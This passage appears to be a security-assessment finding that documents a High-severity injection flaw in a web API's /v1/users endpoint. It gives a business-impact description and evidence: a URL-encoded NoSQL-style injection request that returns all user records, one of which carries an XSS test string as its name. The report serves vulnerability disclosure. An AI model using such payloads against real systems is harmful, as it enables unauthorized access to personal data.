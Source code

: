 #### Severity
High

#### Impact in Business Context
This vulnerability could lead to a serious breach of trust, exposing sensitive 
user details, like emails and roles, to anyone with basic access to the system. 
An attacker who obtains all user records could misuse this information to create 
unauthorized permissions, alter records, or even use the data to target individuals in the organization.

#### Evidence 
- Request:
    ```json
    GET /v1/users/%27%3Breturn%20%27a%27%3D%3D%27a%27%20%26%26%20%27%27%3D%3D%27 HTTP/1.1
    Authorization: Bearer <JWT Token>
    ```

- Respone:
    ```json
    [
        {
            "role":"user",
            "isEmailVerified":true,
            "name":"eval('alert(1)')",
            "email":"test1@silverskin.fi",
            "id":"61f7a23292ae82e903ca5f15"
        },
        {
            "role":"user",
            "isEmailVerified":false,
            "name":"Teppo Winnipeg",
            "email":"test5@silverskin.fi",
            "id":"61f7a28192ae82e903ca5f22"
            },
            {
                "role":"reviewer",
                "isEmailVerified":false,
                "name":"Review Er",
                "email":"test2@silverskin.fi",
                "id":"61f7a33992ae82e903ca5f3a"
            },
            {
                "role":"admin",
                "isEmailVerified":false,
                "name":"Idi Admin",
                "email":"test3@silverskin.fi",
                "id":"61f7a3cb92ae82e903ca5f4a"
            },
            {
                "role":"user",
                "isEmailVerified":false,
                "name":"Test User",
                "email":"test@test.fi",
                "id":"6321afbf6367d02c640290f4"
            },
            ...
    ]
    ```